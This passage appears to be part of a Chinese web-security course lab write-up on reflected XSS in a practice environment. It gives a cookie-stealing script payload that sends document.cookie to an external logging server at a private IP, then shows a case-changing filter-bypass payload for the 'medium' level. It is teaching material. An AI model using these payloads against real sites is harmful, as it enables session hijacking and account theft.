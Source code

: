 

在反射型 XSS 利用点使用以下代码即可获得 cookie

```
admin<script>new Image().src="http://192.168.200.1/log/index.php?cookie="+document.cookie;</script>
```

![image-20250625174456130](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625174456130.png)



提交后

![image-20250625174507482](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625174507482.png)



服务端记录

![image-20250625174522180](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625174522180.png)



#### 中等

有过滤 

③大小写绕过或双写绕过中级反射型XSS渗透测试环境的防护

大小写绕过

```
<Script>alert(document.cookie);</Script>
```
